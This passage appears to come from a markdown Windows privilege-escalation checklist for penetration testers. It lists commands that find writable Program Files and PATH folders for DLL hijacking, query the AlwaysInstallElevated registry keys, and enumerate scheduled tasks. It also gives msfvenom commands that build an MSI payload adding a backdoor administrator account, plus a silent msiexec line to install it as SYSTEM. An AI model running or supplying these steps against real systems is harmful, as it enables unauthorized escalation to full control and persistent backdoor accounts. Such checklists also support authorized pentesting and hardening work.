        # using Powershell
       Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

       Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
      ```
*   [ ] PATH DLL Hijacking

    ```
    # having write permissions inside a folder present ON PATH could bring to DLL hijacking
    	 for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
    ```
*   [ ] AlwaysInstallElevated set in Registry

    ```
     # if both are enabled (set to 0x1), it's possible to execute
     # any .msi as NT AUTHORITY\SYSTEM
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

     # check with msf
     exploit/windows/local/always_install_elevated

     # generate payload with msfvenom
     # no uac format
     msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
     # using the msiexec the uac wont be prompted
     msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

     # install .msi
     msiexec /quiet /qn /i C:\Users\Homer.NUCLEAR\Downloads\donuts.msi
    ```
*   [ ] Scheduled tasks

    ```
     # using schtasks
     schtasks /query /fo LIST /v
     # filtering the output
     schtasks /query /fo LIST /v | findstr /v "\Microsoft"

